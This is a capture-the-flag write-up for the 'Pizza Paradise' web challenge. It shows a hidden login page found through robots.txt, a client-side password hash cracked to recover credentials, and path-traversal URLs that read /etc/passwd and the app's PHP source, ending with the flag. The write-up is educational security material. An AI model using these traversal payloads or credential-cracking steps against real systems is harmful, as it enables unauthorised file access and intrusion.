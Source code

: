 ```yaml
---
name: Pizza Paradise (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Web
description: Writeup for Pizza Paradise (Web) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Pizza Paradise

## Challenge Description

> Something weird going on at this pizza store!!

## Solution

Players arrive at an online pizza store (AI making some tasty looking pizzas these days 🤤).

![](./images/0.PNG)

There is appears to be nothing of interest, but `/robots.txt` has something.

{% code overflow="wrap" %}

```txt
User-agent: *
Disallow: /secret_172346606e1d24062e891d537e917a90.html
Disallow: /assets/
```

{% endcode %}

It's some kind of top secret login portal 🕵️‍♂️

![](./images/1.PNG)

Check the page source.

{% code overflow="wrap" %}

```js
function hashPassword(password) {
    return CryptoJS.SHA256(password).toString();
}

function validate() {
    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;

    const credentials = getCredentials();
    const passwordHash = hashPassword(password);

    if (username === credentials.username && passwordHash === credentials.passwordHash) {
        return true;
    } else {
        alert("Invalid credentials!");
        return false;
    }
}
```

{% endcode %}

The `getCredentials()` function is in `/assets/js/auth.js`.

{% code overflow="wrap" %}

```js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```

{% endcode %}

Crack the SHA256 hash with `hashcat`, `john` or [crackstation](https://crackstation.net).

{% code overflow="wrap" %}

```txt
agent_1337:intel420
```

{% endcode %}

Now we get access to the portal and can download some secret images.

![](./images/2.PNG)

The download function makes a GET request.

{% code overflow="wrap" %}

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/topsecret1.png
```

{% endcode %}

Maybe we can try `/etc/passwd`

{% code overflow="wrap" %}

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/etc/passwd
```

{% endcode %}

But we get an error: `File path not allowed!`

With some trial and error, it's clear that removing `/assets/images/` will cause problems. Let's try path traversal instead.

{% code overflow="wrap" %}

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../../../../etc/passwd
```

{% endcode %}

It works! We could try common locations for a `flag.txt` _or_ we could download the PHP source code of the web app 💡

{% code overflow="wrap" %}

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```

{% endcode %}

Inside, we find the flag!

{% code overflow="wrap" %}

```php
$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';
```

{% endcode %}

Flag: `INTIGRITI{70p_53cr37_m15510n_c0mpl373}`

